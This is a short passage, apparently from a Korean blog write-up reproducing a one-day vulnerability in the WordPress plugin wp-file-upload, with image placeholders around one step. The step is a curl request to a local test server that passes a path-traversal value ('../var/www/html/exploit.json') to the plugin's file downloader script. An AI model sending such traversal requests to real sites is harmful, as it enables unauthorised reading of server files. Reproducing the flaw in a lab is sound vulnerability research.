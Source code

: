 ![imagea](assets/posts/one-day/2025-02-12/image-015.png)

그 다음 아래의 명령어를 입력하여 결과를 확인합니다.

```bash
curl -G "http://localhost:8080/wp-content/plugins/wp-file-upload/wfu_file_downloader.php" \
     --data-urlencode "source=../var/www/html/exploit.json"
```

![imagea](assets/posts/one-day/2025-02-12/image-016.png)
